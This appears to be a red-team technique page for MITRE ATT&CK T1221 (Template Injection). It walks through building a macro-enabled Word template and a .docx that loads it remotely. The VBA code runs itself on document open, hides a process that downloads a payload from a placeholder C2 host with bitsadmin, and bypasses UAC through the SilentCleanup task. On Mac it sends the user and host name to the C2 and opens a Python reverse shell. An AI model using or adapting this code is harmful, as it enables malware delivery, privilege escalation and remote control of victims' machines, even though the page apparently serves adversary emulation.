 # Template Injection

---
* **ID**: T1221
* **Source**: <https://attack.mitre.org/techniques/T1221/>
---

# Details

## Create a Word template (.dotm)
* Open Word and make the `Developer` tab on the ribbon visible
* Open up the `Visual Basic` editor from `Developer` tab
* Double-click on `ThisDocument` under the current project to open up the code window
* Copy and paste the following macro code into the window

```
Sub Auto_Open()
OpenMe
End Sub

Sub AutoOpen()
OpenMe
End Sub

Sub AutoNew()
OpenMe
End Sub

Sub Document_Open()
OpenMe
End Sub

Public Function OpenMe() As Variant
On Error Resume Next
Dim hello As String
hello = "cmd.exe /c c:\windows\system32\bitsadmin.exe /transfer txt /download /priority normal http://<ip_of_C2>/dog.png %ALLUSERSPROFILE%\temp.txt&reg add HKCU\Environment /v windir /d ""rundll32 %ALLUSERSPROFILE%\temp.txt,DllMain "" /f&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I & reg delete HKCU\Environment /v windir /f"
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
objConfig.ShowWindow = 0
Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
objProcess.Create hello, Null, objConfig, intProcessID

Dim cmd As String
cmd = "do shell script ""curl http://<ip_of_C2>/`whoami`/`hostname` & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""<ip_of_C2>\"",<port_of_C2>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\""/bin/sh\"",\""-i\""]);' & """
MacScript (cmd)
End Function
```

* Save the template as `.dotm` format

## Create a Word file (.docx) with remote template
* Create a new Word document
* Rename the extension of the document to `.zip`
* Unzip the file
* Navigate to the `.\word\_rels\` folder and open up file `settings.xml.rels`
* Change the `Target` value to be a remote location of template, e.g. `http://<ip_of_C2>/template.dotm`
* Zip the contents back up and rename the file back to a `.docx` file

# References

* <http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html>
* <https://wordmvp.com/FAQs/MacrosVBA/DocumentEvents.htm>
